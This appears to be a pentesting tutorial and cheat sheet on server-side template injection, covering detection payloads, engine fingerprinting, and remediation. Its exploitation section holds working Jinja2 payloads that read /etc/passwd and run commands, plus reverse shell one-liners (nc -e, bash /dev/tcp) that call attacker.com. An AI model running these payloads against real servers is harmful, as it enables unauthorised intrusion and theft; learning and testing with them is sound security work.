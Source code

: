 # A Pentester's Guide to Server-Side Template Injection (SSTI)

## What is SSTI?

Server-side template injection (SSTI) is a vulnerability where an attacker injects malicious input into a template to execute commands on the server-side. This occurs when user input is embedded into the template engine without proper validation, potentially leading to remote code execution (RCE).

### Common Template Engines:

- **PHP** – Smarty, Twig
- **Java** – Velocity, Freemaker
- **Python** – Jinja, Mako, Tornado
- **JavaScript** – Jade, Rage
- **Ruby** – Liquid

### How Does It Work?

Consider the following vulnerable request:

```http
POST /some-endpoint HTTP/1.1
Host: vulnerable-website.com
parameter=value
```

To test for SSTI, use a polyglot payload:

```http
POST /some-endpoint HTTP/1.1
Host: vulnerable-website.com
parameter=${7*7}
```

If the response contains `49`, the application is likely vulnerable.

## Impact of SSTI

SSTI vulnerabilities are critical as they often lead to:

- **Remote Code Execution (RCE)**
- **Access to sensitive data**
- **Server compromise**

## How To Identify the Vulnerability?

Use a polyglot payload containing special characters to test for SSTI:

```
${{<%[%'"}}%
```

If the server returns an error message or exception, it may indicate a vulnerability. Follow these steps:

1. Detect template injection.
2. Identify the template engine.
3. Consult the manual for specific exploitation techniques.
4. Exploit the vulnerability.

### Cheat Sheet for Identifying Template Engines

| Template Engine | Test Payload     |
| --------------- | ---------------- |
| Jinja2 (Python) | `{{7*7}}`        |
| Twig (PHP)      | `{{7*7}}`        |
| Velocity (Java) | `#set($x=7*7)$x` |
| Mako (Python)   | `${7*7}`         |
| Smarty (PHP)    | `{$7*7}`         |
| Jade/Pug (JS)   | `#{7*7}`         |

## Exploitation Techniques

Once an SSTI vulnerability is confirmed, further exploitation can include:

- **Reading Files:** `{{self.__init__.__globals__['os'].popen('cat /etc/passwd').read()}}`
- **Command Execution:** `{{config.__class__.__init__.__globals__['os'].popen('id').read()}}`
- **Retrieving Environment Variables:** `{{config.items()}}`

### Reverse Shell Payloads

#### Python

```python
{{ self.__init__.__globals__['os'].popen('nc -e /bin/sh attacker.com 4444').read() }}
```

#### Bash

```bash
{{ self.__init__.__globals__['os'].popen('bash -i >& /dev/tcp/attacker.com/4444 0>&1').read() }}
```

#### PHP

```php
{{ passthru("nc -e /bin/sh attacker.com 4444") }}
```

## Automated Tools

**Tplmap** is a tool designed for automating SSTI exploitation, including:

- Sandbox escape techniques
- RCE payload generation
- Template engine detection

[GitHub Repository for Tplmap](https://github.com/epinna/tplmap)

## Advanced Commands & Tricks

### Checking for Error Messages:

```bash
curl -X POST -d 'parameter={{7*7}}' http://target.com/some-endpoint
```

### Extracting System Information:

```python
{{ self.__init__.__globals__['os'].popen('uname -a').read() }}
```

### Listing Files in Directory:

```python
{{ self.__init__.__globals__['os'].popen('ls -la').read() }}
```

### Gaining Interactive Shell:

```python
{{ self.__init__.__globals__['os'].popen('python3 -c "import pty; pty.spawn('/bin/bash')"').read() }}
```

## Remediation

### **1. Input Sanitization**

- Filter user input before passing it into the template engine.
- Use allowlists for expected input values.

### **2. Sandboxing**

- Restrict execution environments using secure sandboxes.
- Disable risky template functions where possible.

By following these best practices, you can prevent SSTI vulnerabilities and protect web applications from critical security risks.


